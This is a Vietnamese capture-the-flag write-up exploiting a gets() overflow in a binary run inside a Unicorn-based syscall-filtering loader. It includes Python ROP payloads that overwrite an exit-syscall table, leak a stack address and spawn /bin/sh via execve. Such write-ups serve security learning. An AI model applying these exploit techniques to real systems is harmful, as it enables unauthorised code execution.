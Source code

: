 - Đề cho ta 2 file binary, file `hello` là một file chứa các hàm mô phỏng từ libc như gets, puts, ... được viết bằng các syscall và hàm main thực thi gets(buf), ở đây ta sẽ có lỗi overflow. Còn file `loader` là một chương trình mô phỏng `cpu` nó thực hiện load và thực thi file `hello` với các ràng buộc syscall

- checksec 2 file:

- ![image-20230313144053569](./assets/image-20230313144053569.png)

- Ở file `hello` do `stack` và `pie` tắt nên ta dễ dàng overflow và chèn các gadget, tuy nhiên các hàm thực thi của `hello` đều phải thông qua ràng buộc syscall của `loader`

- ![image-20230313144331364](./assets/image-20230313144331364.png)

- ![image-20230313144346796](./assets/image-20230313144346796.png)

- `loader` allow các syscall: `0x400, 0x1, 0x0, 0x10, 0x14`. Khi một syscall khác những syscall trên thì nó sẽ thực thi đoạn mã sau:

- ```c
  v9 = 0;
  for ( j = 0; (unsigned __int64)j <= 1; ++j )
  {
    if ( exit_syscalls[j] == sysno )
      syscall(sysno, *(_QWORD *)fd, v14, nbytes);
  }
  printf(">>> enumation stoped because of invalid syscall %d\n", sysno);
  uc_emu_stop(v8);
  break;
  ```

- Dường như nếu `number syscall` là `exit_syscall` thì thì nó sẽ thực thi hàm `syscall` bên dưới, ta có thể lợi dùng điều này để thực thi `syscall(0x3b, '/bin/sh', 0, 0)` để làm được điều này thì ta cần thay đổi giá trị trong `exit_syscall` thành `0x3b`

- Và điều này khả thi vì ta có đoạn mã này

- ```c
  ++syscall_cnt;
  memset(s, 0, 0x80uLL);
  uc_reg_read(a1, 35LL, &sysno);
  uc_reg_read(a1, 39LL, fd);
  uc_reg_read(a1, 43LL, &v14);
  uc_reg_read(a1, 40LL, &nbytes);
  if ( sysno == 0x400 )
  {
    v25 = *(_QWORD *)fd - 8323072LL;
    *(_DWORD *)((char *)&stack + *(_QWORD *)fd - 8323072) = syscall_cnt;
  }
  ```

- Do `stack` và `exit_syscall` đều nằm trên `bss` do đó ta có thể thay đổi nó. Bây giờ ta sẽ thực thi hàm overflow `hello` và thực thi lại hàm `puts` 52 lần thì `syscall_cnt = 0x3b`.

- ```python
  payload = b'a'*264
  payload += p64(pop_rdi) + p64(libc) + p64(hello.sym['puts'])*52
  payload += flat(
      pop_rax, 0x400,
      pop_rdi, 7820912,
      syscall,
  )
  ```

- ![image-20230313232944080](./assets/image-20230313232944080.png)

- Mục tiêu tiếp theo ta sẽ tìm chuỗi `/bin/sh`, ta có thể leak libc hoặc heap hay stack do 2 phần vùng lưu các giá trị nhập vào là heap và stack nên ta có thể nhập chuỗi `/bin/sh` vào.

- Ban đầu tôi định lợi dụng `sys_write` để thực thi hàm `printf` và in ra những giá trị nhập vào kề nhau hy vọng leak được cái gì đó.

- Thử test với `payload` như này

- ```python
  addr = 0x4005c88
  payload += flat(
      pop_rdi, addr,
      hello.sym['gets'],
      pop_rax, 0x1,
      pop_rdi, 0x1,
      pop_rsi, addr, 0x1,
      pop_rdx, 0x100,
      syscall
  )
  r.sendlineafter(b'name: \n', payload)
  r.sendline(b'a'*16)
  ```

- Ta sẽ đặt `breakpoint` tại `case 1` để xem cách thức hoạt động của `syscall write` này.

- ![image-20230313221240794](./assets/image-20230313221240794.png)

- ![image-20230313221332366](./assets/image-20230313221332366.png)

- dường như `uc_mem_read` sẽ copy liệu từ `addr` rồi chuyển vào `stack` theo ` size` nhất định ở đây là 0x100. Sau đó nó chuyển đến `printf` để in ra

- ![image-20230313221553296](./assets/image-20230313221553296.png)

- Do size quá lớn nên đã ghi đè lên canary

- ![image-20230313221654836](./assets/image-20230313221654836.png)

- Và tôi tính rằng sẽ tìm 1 địa chỉ chứa 1 giá trị đại loại là như `stack` hay `libc` gì đó trên `hello` để in ra. Tôi tìm tìm thấy một số địa chỉ như `0x4005c88` và `0x4005250` chúng chứa giá trị `stack` nhưng dường như nó không hoạt động trên file `loader` khi nó chỉ in ra 3 byte của 1 đoạn địa chỉ vô định nào đó.

- Tôi tự hỏi rằng nếu hàm `uc_mem_read` copy dữ liệu từ một địa chỉ trên `hello` thì `uc_mem_write` copy cái gì đó từ `loader` lên `hello`, vây nên tôi sẽ set payload để thực hiện `syscall 0x1` để thực thi `uc_mem_write`, vì trên file `loader` ta không thể tương tác với các địa chỉ trên `hello` nên sau khi `syscall 0x1` thì tôi sẽ `sys_write` và đặt `breakpoint` tại `uc_mem_read` xem nó đọc được gì.

- ```python
  addr = 0x4005c88
  payload += flat(
      pop_rax, 0x0,
      pop_rdi, 0x0,
      pop_rsi, addr, 0x0,
      pop_rdx, 0x60,
      syscall,
      pop_rax, 0x1,
      pop_rdi, 0x1,
      pop_rsi, addr, 0x0,
      pop_rdx, 0x60,
      syscall
  )
  r.sendlineafter(b'name: \n', payload)
  r.recv()
  r.send(b'a'*16)
  ```

- ![image-20230313225323008](./assets/image-20230313225323008.png)

- ![image-20230313232331601](./assets/image-20230313232331601.png)

- Ta có thể thấy được răng `uc_mem_write` đã đưa một số dữ liệu vào `addr` và khi ta `uc_mem_read` nó đã được đẩy lên `stack`, giờ ta đã có thể leak được `stack` ra.

- Sau khi leak `stack` ta gọi lại `main` và `gets` chuỗi `/bin/sh` vào `stack` để thực thi `syscall(0x3b, '/bin/sh', 0, 0)`

- ```c
  payload = b'a'*256 + b'/bin/sh\x00'
  payload += flat(
      pop_rdi, addr,
      hello.sym['gets'],
      pop_rax, 0x3b,
      pop_rdi, binsh,
      pop_rsi, 0,0,
      pop_rdx,0,
      syscall  
  )
  
  r.sendlineafter(b'name: \n', payload)
  r.recv()
  r.sendline(b'/bin/sh\x00')
  ```

- ![image-20230313233502547](./assets/image-20230313233502547.png)